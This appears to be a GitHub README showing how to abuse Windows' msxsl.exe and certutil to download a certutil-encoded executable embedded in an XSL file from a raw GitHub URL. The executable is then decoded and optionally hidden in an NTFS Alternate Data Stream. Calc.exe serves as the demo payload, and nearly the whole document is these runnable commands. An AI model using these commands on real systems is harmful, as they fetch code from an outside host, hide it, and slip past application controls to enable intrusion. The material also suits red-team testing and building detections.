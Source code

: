 # Use-msxsl-to-download-file

## Create payload and insert into the XSL file:
```
certutil -encode C:\Windows\System32\calc.exe calc_payload.txt
```

Now copy the certutil encoded payload from calc_payload.txt and insert into calc_xsl.xml between `<TEST> </TEST>`


## Use MSXSL to download XSL file with certutil encoded payload and save to file:
```
msxsl.exe "https://raw.githubusercontent.com/RonnieSalomonsen/Use-msxsl-to-download-file/main/calc_xsl.xml " "https://raw.githubusercontent.com/RonnieSalomonsen/Use-msxsl-to-download-file/main/xsl.xml" -o <filename>

certutil -decode <filename> calc.exe
```

## Use MSXSL to download XSL file with certutil encoded payload and save to ADS:
```
msxsl.exe "https://raw.githubusercontent.com/RonnieSalomonsen/Use-msxsl-to-download-file/main/calc_xsl.xml" "https://raw.githubusercontent.com/RonnieSalomonsen/Use-msxsl-to-download-file/main/xsl.xml" -o <filename>:<ADS name>

certutil -decode <filename>:<ADS name> calc.exe
```
